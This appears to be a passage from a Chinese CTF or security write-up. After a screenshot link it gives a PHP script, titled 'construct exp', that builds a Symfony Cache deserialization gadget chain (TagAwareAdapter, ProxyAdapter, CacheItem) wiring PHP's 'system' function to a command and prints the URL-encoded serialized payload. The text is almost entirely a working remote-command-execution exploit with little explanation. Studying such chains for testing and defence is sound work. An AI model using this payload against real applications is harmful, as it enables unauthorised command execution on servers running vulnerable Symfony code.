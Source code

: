 ![image-20211204104546506](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204104546506.png)

构造exp

```php
<?php

namespace Symfony\Component\Cache{
    final class CacheItem
    {
        protected $expiry;
        protected $poolHash;
        protected $innerItem;
        public function __construct($expiry, $poolHash, $command)
        {
            $this->expiry = $expiry;
            $this->poolHash = $poolHash;
            $this->innerItem = $command;
        }
    }
}

namespace Symfony\Component\Cache\Adapter{
    class ProxyAdapter
    {
        private $poolHash;
        private $setInnerItem;
        public function __construct($poolHash, $func)
        {
            $this->poolHash = $poolHash;
            $this->setInnerItem = $func;
        }
    }
    class TagAwareAdapter
    {
        private $deferred = [];
        private $pool;
        public function __construct($deferred, $pool)
        {
            $this->deferred = $deferred;
            $this->pool = $pool;
        }
    }
}

namespace {
    $cacheitem = new Symfony\Component\Cache\CacheItem(1,1,"dir");
    $proxyadapter = new Symfony\Component\Cache\Adapter\ProxyAdapter(1,'system');
    $tagawareadapter = new Symfony\Component\Cache\Adapter\TagAwareAdapter(array($cacheitem),$proxyadapter);
    echo urlencode(serialize($tagawareadapter));
}

```
